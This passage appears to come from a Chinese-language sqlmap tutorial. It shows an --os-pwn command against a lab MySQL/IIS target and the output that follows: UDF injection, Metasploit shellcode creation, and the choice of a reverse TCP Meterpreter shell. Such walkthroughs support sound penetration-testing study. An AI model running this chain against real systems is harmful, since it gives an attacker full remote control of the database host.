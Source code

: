 列举一个MySQL例子：

$ python sqlmap.py -u "http://192.168.136.129/sqlmap/mysql/iis/get_int_55.aspx?id=1" --os-pwn --msf-path /software/metasploit

[...]
[hh:mm:31] [INFO] the back-end DBMS is MySQL
web server operating system: Windows 2003
web application technology: ASP.NET, ASP.NET 4.0.30319, Microsoft IIS 6.0
back-end DBMS: MySQL 5.0
[hh:mm:31] [INFO] fingerprinting the back-end DBMS operating system
[hh:mm:31] [INFO] the back-end DBMS operating system is Windows
how do you want to establish the tunnel?
[1] TCP: Metasploit Framework (default)
[2] ICMP: icmpsh - ICMP tunneling
&gt; 
[hh:mm:32] [INFO] testing if current user is DBA
[hh:mm:32] [INFO] fetching current user
what is the back-end database management system architecture?
[1] 32-bit (default)
[2] 64-bit
&gt; 
[hh:mm:33] [INFO] checking if UDF 'sys_bineval' already exist
[hh:mm:33] [INFO] checking if UDF 'sys_exec' already exist
[hh:mm:33] [INFO] detecting back-end DBMS version from its banner
[hh:mm:33] [INFO] retrieving MySQL base directory absolute path
[hh:mm:34] [INFO] creating UDF 'sys_bineval' from the binary UDF file
[hh:mm:34] [INFO] creating UDF 'sys_exec' from the binary UDF file
how do you want to execute the Metasploit shellcode on the back-end database underlying 
operating system?
[1] Via UDF 'sys_bineval' (in-memory way, anti-forensics, default)
[2] Stand-alone payload stager (file system way)
&gt; 
[hh:mm:35] [INFO] creating Metasploit Framework multi-stage shellcode 
which connection type do you want to use?
[1] Reverse TCP: Connect back from the database host to this machine (default)
[2] Reverse TCP: Try to connect back from the database host to this machine, on all ports 
between the specified and 65535
[3] Bind TCP: Listen on the database host for a connection
&gt; 
which is the local address? [192.168.136.1] 
which local port number do you want to use? [60641] 
which payload do you want to use?
[1] Meterpreter (default)
[2] Shell
[3] VNC
&gt; 
[hh:mm:40] [INFO] creation in progress ... done
[hh:mm:43] [INFO] running Metasploit Framework command line interface locally, please wait..

                                _
                                | |      o
_  _  _    _ _|_  __,   ,    _  | |  __    _|_
/ |/ |/ |  |/  |  /  |  / \_|/ \_|/  /  \_|  |
|  |  |_/|__/|_/\_/|_/ \/ |__/ |__/\__/ |_/|_/
                        /|
                        \|
